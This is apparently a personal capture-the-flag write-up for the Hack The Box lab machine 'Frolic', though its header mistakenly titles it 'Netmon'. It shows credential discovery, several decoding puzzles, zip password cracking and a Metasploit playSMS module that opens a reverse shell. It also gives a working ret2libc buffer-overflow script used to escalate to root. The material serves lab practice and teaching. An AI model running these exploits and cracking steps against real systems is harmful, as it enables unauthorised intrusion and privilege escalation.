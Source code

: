 ```yaml
---
title: Netmon
author: fieldraccoon
date: 2020-06-21 
categories: [hack-the-box, linux]
tags: [hack-the-box, binary-exploitation, crypto]
math: true
---
```

# FROLIC
frolic was a great box that involved a decent amount of binary exploitation(im not the best at this so if you want a more in
depth explanantion i suggest looking at other writeups, im just doing this so i have a record to look back at.)

>Skills involved in this box:
- enumeration 
- A bit of crypto 
- metasploit
- binary exploitation

# USER

After running an nmap scan we can see that there is quite a few ports open but the main ones that we need are 9999.
There is jsut a welcome message for nginx on the main page so we use dirbuster to search for directories, We use a few 
searches so i will just list all the interesting things that i found:
```
/admin
/backup
/dev
/test
/dev/backup/playsms
```
Taking a look at `/admin` We can see that it is a login page. We look into the source code of the site and find `login.js`:
```javascript
var attempt = 3; // Variable to count number of attempts.
// Below function Executes on click of login button.
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "admin" && password == "superduperlooperpassword_lol"){
alert ("Login successfully");
window.location = "success.html"; // Redirecting to other page.
return false;
}
else{
attempt --;// Decrementing by one.
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```
One line sticks out the most and that is the `if ( username == "admin" && password == "superduperlooperpassword_lol"){
`
So now we have some creds, `admin:superduperlooperpassword_lol` we login to the login page and get met buy another site.
```
..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... ..... ..... ..... ..... ..!.? ..... ..... .!?!! .?... ..... ..?.? !.?.. ..... ..... ....! ..... ..... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !...! ..... ..... .!.!! !!!!! !!!!! !!!.? ..... ..... ..... ..!?! !.?!! !!!!! !!!!! !!!!? .?!.? !!!!! !!!!! !!!!! .?... ..... ..... ....! ?!!.? ..... ..... ..... .?.?! .?... ..... ..... ...!. !!!!! !!.?. ..... .!?!! .?... ...?. ?!.?. ..... ..!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!!!. ?.... ..... ..... ...!? !!.?! !!!!! !!!!! !!!!! ?.?!. ?!!!! !!!!! !!.?. ..... ..... ..... .!?!! .?... ..... ..... ...?. ?!.?. ..... !.... ..... ..!.! !!!!! !.!!! !!... ..... ..... ....! .?... ..... ..... ....! ?!!.? !!!!! !!!!! !!!!! !?.?! .?!!! !!!!! !!!!! !!!!! !!!!! .?... ....! ?!!.? ..... .?.?! .?... ..... ....! .?... ..... ..... ..!?! !.?.. ..... ..... ..?.? !.?.. !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... .!?!! .?!!! !!!?. ?!.?! !!!!! !!!!! !!... ..... ...!. ?.... ..... !?!!. ?!!!! !!!!? .?!.? !!!!! !!!!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!.! !!!!! !!!!! !!!!! !.... ..... ..... ..... !.!.? ..... ..... .!?!! .?!!! !!!!! !!?.? !.?!! !.?.. ..... ....! ?!!.? ..... ..... ?.?!. ?.... ..... ..... ..!.. ..... ..... .!.?. ..... ...!? !!.?! !!!!! !!?.? !.?!! !!!.? ..... ..!?! !.?!! !!!!? .?!.? !!!!! !!.?. ..... ...!? !!.?. ..... ..?.? !.?.. !.!!! !!!!! !!!!! !!!!! !.?.. ..... ..!?! !.?.. ..... .?.?! .?... .!.?. ..... ..... ..... .!?!! .?!!! !!!!! !!!!! !!!?. ?!.?! !!!!! !!!!! !!.!! !!!!! ..... ..!.! !!!!! !.?.
```
This is a ciphertext for an langauge called Ook! we find an online decoder for it(i used dcode.fr)
We get teh output:
```
Nothing here check /asdiSIAJJ0QWE9JAS
```
So we check that directory and we find a long base64 string:
```
UEsDBBQACQAIAMOJN00j/lsUsAAAAGkCAAAJABwAaW5kZXgucGhwVVQJAAOFfKdbhXynW3V4CwABBAAAAAAEAAAAAF5E5hBKn3OyaIopmhuVUPBuC6m/U3PkAkp3GhHcjuWgNOL22Y9r7nrQEopVyJbsK1i6f+BQyOES4baHpOrQu+J4XxPATolb/Y2EU6rqOPKD8uIPkUoyU8cqgwNE0I19kzhkVA5RAmveEMrX4+T7al+fi/kY6ZTAJ3h/Y5DCFt2PdL6yNzVRrAuaigMOlRBrAyw0tdliKb40RrXpBgn/uoTjlurp78cmcTJviFfUnOM5UEsHCCP+WxSwAAAAaQIAAFBLAQIeAxQACQAIAMOJN00j/lsUsAAAAGkCAAAJABgAAAAAAAEAAACkgQAAAABpbmRleC5waHBVVAUAA4V8p1t1eAsAAQQAAAAABAAAAABQSwUGAAAAAAEAAQBPAAAAAwEAAAAA
```
Decoding this gives a weird output to we decide to decode it into a zip file.
```base64 -d base64.txt > file.zip```
Trying to unzip it shows us that it is password protected so we find a tool that can get us the password from it.
We find a tool called fcrackzip that will do the trick.
```
fcrackzip file.zip -u -D -p /usr/share/wordlists/rockyou.txt
```
After unzipping that we get a file called index.php that contains a long hex string. We decode this from hex and get a base64 string. After decoding that we get a string that appears to be in the language "brainfuck":
```
+++++ +++++ [->++ +++++ +++<] >++++ +.--- --.++ +++++ .<+++ [->++ +<]>+
++.<+ ++[-> ---<] >---- --.-- ----- .<+++ +[->+ +++<] >+++. <+++[ ->---
<]>-- .<+++ [->++ +<]>+ .---. <+++[ ->--- <]>-- ----. <++++ [->++ ++<]>
++..<
```
Of course we use an online decoder to translate this into english and it ourputs `idkwhatispass` We can only assume that this is the password for the playsms page.
We login on playsms with `admin:idkwhatispass` 
We spend a while searching for exploits to gain us a shell, we come accross a metasploit module using searchsploit that will do the trick. Its called `exploit/multi/http/playsms_uploadcsv_exec`
We set the appropriate options:
```
set password idkwhatispass
set rport 9999
set rhosts 10.10.10.111
set targeturi /playsms
set lhost {your tun0 ip}
exploit
```
We now get a shell as www-data and manage to read the user flag.

# ROOT

We find an SUID binary in /home/ayush/.binary, its called rop
we run it to see what it does, basically it just takes our input and outputs it. 
We do:
```
./rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```
And we see that it returns a seg fault so we have a buffer overflow vulnerability.
We are going to do a ret2libc attack.
GDB is not installed on the box so we download a static version and then upload it via a metpreter session.
Theses are the exploitation steps:
```
on our box: 
gdb-peda$ pattern_create -l 100
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL'
gdb rop
break *main
run AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AAL
c
we get an address below the line that says segfault.
gdb-peda$ pattern_offset -q address_we_got
we will get an offset of 52
```
This shows us that the buffer overflows at 52 chars
Now we need to get all the addresses so we will start with finding the /bin/sh in libc
```
www-data@frolic:/home/ayush/.binary$ ldd rop 
        linux-gate.so.1 =>  (0xb7fda000)
        libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb7e19000)    
        /lib/ld-linux.so.2 (0xb7fdb000)
        
www-data@frolic:/home/ayush/.binary$ strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15ba0b /bin/sh
Also in gdb we do "p system" and "p exit" to find the addresses for system and exit 
 ```
So now we have all our addresses:
```
libc = 0xb7e19000
offset = 0x0015ba0b
/bin/sh = libc + offset = 0xb7f74a0b
system = 0xb7e53da0
exit = 0xb7e479d0
```
Now we have everything we need lets construct our script
```python
#!/usr/bin/python

import struct

buf = "A" * 52
system = struct.pack("I" ,0xb7e53da0)
exit = struct.pack("I" ,0xb7e479d0)
shell = struct.pack("I" ,0xb7f74a0b)
print buf + system + exit + shell
```
Then we simply run This command to exploit the binary and get a root shell and read the root flag:
```
./rop `python /tmp/exploit.py`
```
Thanks for reading and if you enjoyed make sure to check out my profile at 
https://www.hackthebox.eu/home/users/profile/246314


